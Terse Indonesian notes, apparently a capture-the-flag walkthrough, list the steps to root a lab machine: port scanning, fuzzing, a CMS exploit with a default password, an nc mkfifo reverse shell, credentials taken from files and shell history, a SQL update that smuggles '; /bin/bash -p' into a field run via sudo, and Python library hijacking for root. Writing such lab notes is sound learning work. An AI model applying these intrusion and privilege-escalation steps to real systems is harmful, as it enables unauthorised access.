 1. scan nmap 80 22 kebuka -> fuzz /app kebuka -> cari exploit cms ama versinya
2. klaik admin itu buat masukin password -> dan passwordnya password
3. cara pake -> python3 exp.py ip port password /app/gatauk
4. masuk shell di phar noh copas aja -> revshell aja pake nc mkfifo
5. ke /opt ada file jir ada creds nya juga di cat -> gatau di linpeash ketauan apa ga
6. ssh aja kesitu -> ls -la ada history cat aja -> ada creds mysql -> bisa tuh cek di mysql di table library
7. coba command ini -> UPDATE dreams SET dream = '; /bin/bash -p' WHERE dreamer = 'Alice'; -> run pake yg di sudo -l itu 
8. sudo -u death /usr/bin/python3 /home/death/getDreams.py -> shell rusak -> chmod 777 /home/death/getDreams.py -> exit
9. cat script nya -> su -> klaim flag   
10. ke morpeus -> ls -la -> rid aja script nya -> find / -name "shutil*" 2>/dev/null
11. cari yg .py -> replace revshell python aja terus run mungkin 
12. run aja restore.py nya di morpeus -> sudo su ->  klaim flag
